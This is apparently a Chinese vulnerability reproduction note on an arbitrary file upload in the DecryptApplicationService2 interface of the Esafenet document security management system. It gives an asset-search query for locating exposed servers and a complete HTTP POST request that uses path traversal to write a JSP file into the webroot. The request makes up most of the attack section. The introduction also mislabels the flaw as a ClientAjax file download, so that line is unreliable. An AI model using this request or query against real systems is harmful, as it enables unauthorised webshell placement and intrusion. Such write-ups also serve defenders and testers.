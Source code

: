 # 亿赛通 电子文档安全管理系统 DecryptApplicationService2接口任意文件上传

# 一、漏洞简介
亿赛通电子文档安全管理系统是一款电子文档安全加密软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产，对电子文档进行全生命周期防护，系统具有透明加密、主动加密、智能加密等多种加密方式，用户可根据部门涉密程度的不同（如核心部门和普通门），部署力度轻重不一的梯度式文档加密防护，实现技术、管理、审计进行有机的结合，在内部构建起立体化的整体信息防泄露体系，使得成本、效率和安全三者达到平衡，实现电子文档的数据安全。亿赛通 电子文档安全管理系统 ClientAjax 任意文件下载。

# 二、影响版本
+ 亿赛通电子文档安全管理系统

# 三、资产测绘
+ hunter`app.name="ESAFENET 亿赛通文档安全管理系统"`
+ 登录页面

![1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6.png](./img/3DzwHgk0XXbWaCGw/1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6-368700.png)

# 四、漏洞复现
```plain
POST /CDGServer3/DecryptApplicationService2?fileId=../../../Program+Files+(x86)/ESAFENET/CDocGuard+Server/tomcat64/webapps/CDGServer3/pentest.jsp HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.4; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host:  IP：PORT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: JSESSIONID=B9964151074C71F115A9C803FFF05C34
Upgrade-Insecure-Requests: 1
Content-Length: 11

pentest
```



<font style="color:rgb(51, 51, 51);">文件地址：/CDGServer3/pentest.jsp</font>



> 更新: 2024-04-20 22:01:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gbd5spifnesrczm0>